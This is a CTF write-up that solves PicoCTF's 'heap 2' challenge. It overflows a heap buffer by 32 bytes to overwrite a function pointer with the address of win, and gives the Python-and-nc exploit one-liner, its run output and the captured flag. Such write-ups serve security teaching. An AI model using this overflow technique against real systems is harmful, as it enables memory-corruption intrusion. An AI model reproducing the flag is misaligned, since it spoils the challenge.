

# Heap 2#

This is the write-up for the challenge "heap 2" challenge in PicoCTF

## The challenge ##

### Description ###
you can find the challenge [here](https://play.picoctf.org/practice/challenge/435)  
the challenge says:  
> Can you handle function pointers?  
> Download the binary [here](files/binary).  
> Download the source [here](files/code.c).  
> Connect with the challenge instance here:  
> nc mimas.picoctf.net \<port\>  

 

## How I Solve The Challenge ##
Starting with reading the code I noticed that I need to override the `x` to be a pointer to the function `win`.  
How can I do it, I can write to `input_data` enough chars that it will spilled into `x` and change `x`.  
Now we need to answer 2 questions:

1. How many chars?  
   We can see the difference between `x` and `input_data` in the program when we choose `1` we can see:
   ```
   Enter your choice: 1
   [*]   Address   ->   Value   
   +-------------+-----------+
   [*]   0x1ce62b0  ->   pico
   +-------------+-----------+
   [*]   0x1ce62d0  ->   bico
   ```
   So the number of chars we need to enter is `0x1ce62d0 - 0x1ce62b0 = 32` to change `x`  
2. What is the number that represent a pointer to the `win` function?  
   To answer that question we open `gdb binary` and write `print win` we got that the we need `0x4011a0`

## Solving ##
After receiving all the needed data, lets try it out using the next command:  
```bash
python -c "import sys; sys.stdout.buffer.write(b'2\n'+b'_'*32+b'\x00\x40\x11\xa0'[::-1]+b'\n'+b'4\n5\n')" |\
nc mimas.picoctf.net <port> |\
grep -oE picoCTF{.*?}
```
Whats going on here? We use python to solve this by writing to the stdout:  
`2\n` - choose the option 2 - write to buffer  
`b'_'*32` - 32 non-relevant chars - just to get to the option to write to `x`  
`b'\x00\x40\x11\xa0'[::-1]` - write the pointer to the win function to `x`, the `[::-1]` used for little endian  
`b'\n'` - so the buffer will read all this to `input_data`  
`b'4\n5\n'` - choose option 4 for printing the flag, choose option 5 for exit the program  

We piped it to the program using the `| mimas.picoctf.net <port>`  
We piped it to a grep that will find the flag using the `| grep -oE picoCTF{.*?}`

Let's run it in the picoCTF bash:
```bash
hodvak-picoctf@webshell:~$ python -c "import sys; sys.stdout.buffer.write(b'2\n'+b'_'*32+b'\x00\x40\x11\xa0'[::-1]+b'\n'+b'4\n5\n')"| nc mimas.picoctf.net 61826 | grep -Eo picoCTF{.*?}
picoCTF{and_down_the_road_we_go_dbb7ff66}
```
Voila!!! 😎  
The flag is `picoCTF{and_down_the_road_we_go_dbb7ff66}`  
Cheers 😄  
